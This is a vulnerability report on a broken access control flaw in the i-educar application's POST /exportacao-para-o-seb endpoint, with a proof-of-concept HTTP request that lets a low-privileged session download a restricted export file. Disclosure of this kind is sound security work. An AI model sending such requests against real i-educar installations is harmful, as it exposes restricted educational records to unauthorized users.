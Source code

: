 # Broken Access Control  in `/exportacao-para-o-seb` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/exportacao-para-o-seb` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `POST /exportacao-para-o-seb`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.
![[Pasted image 20250821190942.png]]
![[Pasted image 20250821191019.png]]
    
2. Send the following request::

```
POST /exportacao-para-o-seb HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/exportacao-para-o-seb
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

ano=2025&ref_cod_instituicao=1&ref_cod_escola=4
```
    
3. We could observe that a file is attached to the response. This user shouldn't do this request.

![[Pasted image 20250821191236.png]]

---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

This vulnerability falls under **OWASP Top 10 - A01:2021 Broken Access Control**  
🔗 OWASP Documentation